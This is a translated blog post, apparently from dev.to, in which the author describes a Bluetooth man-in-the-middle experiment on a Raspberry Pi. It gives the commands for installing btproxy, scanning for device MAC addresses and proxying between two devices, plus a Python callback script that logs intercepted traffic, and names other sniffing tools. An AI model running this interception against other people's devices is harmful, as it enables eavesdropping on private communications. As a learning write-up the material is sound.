

# 安全冲刺周 10 和 11:蓝牙黑客

> 原文：<https://dev.to/terceranexus6/security-sprint-week-10--11-bluetooth-hacking--4kh3>

我最近忙于许多事情，这不允许我学习所有我想学的东西。我主要在做两件事，分布式账本实验和硬件。但是我想了很久的一个黑客实验，最后我决定尝试一下。这是一个**人在中间**使用 python 库攻击(或嗅探)蓝牙连接，我想我会省略*来说明我想知道的*。

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--g92OT2G_--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_66%2Cw_880/https://thumbs.gfycat.com/SaneSpanishCrayfish-max-1mb.gif)

无论如何，我在这里要做的是使用蓝牙捕捉两个节点之间的连接。第一个想法是*只*捕捉连接的内容。为此，我需要一个 linux 系统，在这种情况下，我在 RPi 3 中使用基于 debian 的 Raspbian。

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--V3mlnr6z--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/r096d85eunjfpjpc3wdk.jpg)

在上面，我安装了一些包，在 github 上克隆了工具的 [repo](https://github.com/conorpp/btproxy.git) (这里需要 **git，btw** ):

```
$ sudo apt-get install bluez libbluetooth-dev python-dev
$ git clone git://github.com/conorpp/btproxy 
```

Enter fullscreen mode Exit fullscreen mode

安装工具时，只需使用`sudo python setup.py install`。

现在我们需要[获取](https://www.systutorials.com/docs/linux/man/1-hcitool/)两个节点的 MAC 地址。

```
$ hcitool scan 
```

Enter fullscreen mode Exit fullscreen mode

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--KYW8EFEv--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/rjcsf6kg5iiufuu7pdz6.jpg)

一旦我们有了它们，我们就可以在[最基本的 MITM 攻击中使用它们](https://github.com/conorpp/btproxy/blob/master/scripts/btproxy)提供的工具，就像这样:

```
$ sudo btproxy <master-bt-mac-address> <slave-bt-mac-address> 
```

Enter fullscreen mode Exit fullscreen mode

主设备是发送连接请求的设备，从设备是侦听连接的设备。正如自述文件中所解释的，我们可以更好地为 slave 和 master 传递自定义脚本。为此，我们使用`btproxy -s SCRIPT`作为脚本，就像这样:

```
# script_example.py
def master_cb(req):
    """
        Received something from master, about to be sent to slave.
    """
    print '<< ', repr(req)
    open('mastermessages.log', 'a+b').write(req)
    return req

def slave_cb(res):
    """
        Same as above but it's from slave about to be sent to master
    """
    print '>> ', repr(res)
    open('slavemessages.log', 'a+b').write(res)
    return res 
```

Enter fullscreen mode Exit fullscreen mode

我必须说这个工具在使用两个相同的节点时令人困惑，比如两个手机，并且不能正常工作。同样对于*那种*嗅探，我会建议[用这个回购](https://github.com/vshymanskyy/BLESniffer_Python/tree/e9429371a9832d406fd6e897b2dadc2637c64976)代替，它也准备了一个. pcap 文件来扫描电话流量，但是它可能需要[硬件支持](https://www.adafruit.com/product/2269)，如果你有 arduino，你[可以把](https://github.com/RedBearLab/nRF51822-Arduino)变成你自己的，尽管如此。另一方面，另一个替代方案是 [BTJuice](https://github.com/DigitalSecurity/btlejuice) ，它也可以与**python**+**NodeJS**一起工作。这个工具非常完整，包括一个在本地主机中使用的用户友好界面。这些命令也非常类似于 btproxy 中使用的命令。

不管怎样，这是我到目前为止所有的东西了！